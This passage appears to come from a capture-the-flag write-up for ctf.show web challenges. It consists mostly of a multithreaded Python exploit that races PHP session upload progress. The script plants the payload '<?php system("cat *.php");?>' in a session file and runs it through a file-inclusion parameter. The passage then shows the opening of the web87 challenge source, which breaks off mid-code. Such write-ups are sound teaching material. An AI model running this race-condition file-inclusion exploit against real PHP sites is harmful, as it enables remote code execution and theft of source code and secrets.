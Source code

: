 ```
# -*- coding: utf-8 -*-
# @author:lonmar
import io
import requests
import threading

sessID = 'flag'
url = 'http://7920d625-4983-43eb-9d4f-335e57303fd0.chall.ctf.show/'


def write(session):
    while event.isSet():
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat *.php");?>'},
            files={'file': ('test.txt', f)}
        )


def read(session):
    while event.isSet():
        response = session.get(url + '?file=/tmp/sess_{}'.format(sessID))
        if 'test' in response.text:
            print(response.text)
            event.clear()
        else:
            print('[*]retrying...')


if __name__ == '__main__':
    event = threading.Event()
    event.set()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
```



# web87

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
```